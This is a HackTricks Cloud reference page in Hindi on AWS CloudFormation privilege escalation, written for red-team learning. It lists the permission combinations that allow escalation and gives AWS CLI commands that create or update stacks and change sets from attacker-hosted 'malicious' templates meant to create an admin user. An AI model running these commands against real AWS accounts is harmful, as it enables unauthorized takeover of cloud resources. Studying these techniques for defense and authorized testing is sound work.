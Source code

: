 # AWS - Cloudformation Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## cloudformation

cloudformation के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

**`iam:PassRole`** और **`cloudformation:CreateStack`** अनुमतियों वाला एक हमलावर **विशेषाधिकार बढ़ाने के लिए CloudFormation टेम्पलेट बना सकता है** जो क्रियाएं करेगा और संसाधन बनाएगा उस भूमिका की अनुमतियों का उपयोग करते हुए जो CloudFormation स्टैक बनाते समय पास की गई थी।
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
जहां हमलावर की वेबसाइट पर स्थित टेम्प्लेट में **दुर्भावनापूर्ण क्रियाओं को करने के निर्देश होते हैं, जैसे कि एक प्रशासक उपयोगकर्ता बनाना** और फिर उन क्रेडेंशियल्स का उपयोग करके अपनी पहुँच बढ़ाना।

निम्नलिखित पृष्ठ पर आपके पास अतिरिक्त अनुमति **`cloudformation:DescribeStacks`** के साथ एक **शोषण उदाहरण** है:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**संभावित प्रभाव:** निर्दिष्ट cloudformation सेवा भूमिका के लिए Privesc।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप **मौजूदा cloudformation स्टैक का दुरुपयोग कर सकते हैं** ताकि इसे अपडेट करें और पिछले परिदृश्य की तरह विशेषाधिकार बढ़ा सकें:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **खुद को `UpdateStack` अनुमति दे सकते हैं** एक स्टैक पर और हमला कर सकते हैं।

**संभावित प्रभाव:** cloudformation सेवा भूमिका के लिए Privesc निर्दिष्ट।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole` नहीं** है, तो आप अभी भी **स्टैक्स को अपडेट कर सकते हैं** और पहले से जुड़े **IAM भूमिकाओं का दुरुपयोग कर सकते हैं**। पिछले अनुभाग को शोषण उदाहरण के लिए देखें (बस अपडेट में कोई भूमिका न दिखाएं)।

`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **खुद को `UpdateStack` अनुमति दे सकते हैं** एक स्टैक पर और हमला कर सकते हैं।

**संभावित प्रभाव:** पहले से जुड़े cloudformation सेवा भूमिका के लिए Privesc।

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

एक हमलावर जिसके पास **एक भूमिका पास करने और ChangeSet बनाने व निष्पादित करने की अनुमति है**, वह **नया cloudformation स्टैक बना/अपडेट कर सकता है और cloudformation सेवा भूमिकाओं का दुरुपयोग कर सकता है** जैसे कि CreateStack या UpdateStack के साथ।

निम्नलिखित शोषण **CreateStack वाले का एक**[ **विविधता है**](./#iam-passrole-cloudformation-createstack) **ChangeSet अनुमतियों** का उपयोग करके एक स्टैक बनाने के लिए।
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **खुद को `ChangeSet` अनुमतियाँ दे सकते हैं** और हमला कर सकते हैं।

**संभावित प्रभाव:** cloudformation सेवा भूमिकाओं के लिए Privesc।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछली विधि की तरह है बिना **IAM भूमिकाओं** को पास किए, इसलिए आप सिर्फ **पहले से जुड़ी हुई भूमिकाओं का दुरुपयोग कर सकते हैं**, बस पैरामीटर में संशोधन करें:
```
--change-set-type UPDATE
```
**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका तक प्रिवेस्क जो पहले से जुड़ी हुई है।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर इन अनुमतियों का दुरुपयोग कर सकता है ताकि StackSets बनाए/अपडेट कर सके और मनमाने क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग कर सके।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं तक प्रिवेस्क।

### `cloudformation:UpdateStackSet`

एक हमलावर इस अनुमति का दुरुपयोग कर सकता है बिना passRole अनुमति के StackSets को अपडेट करने के लिए और जुड़ी हुई क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग कर सकता है।

**संभावित प्रभाव:** जुड़ी हुई क्लाउडफॉर्मेशन भूमिकाओं तक प्रिवेस्क।

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
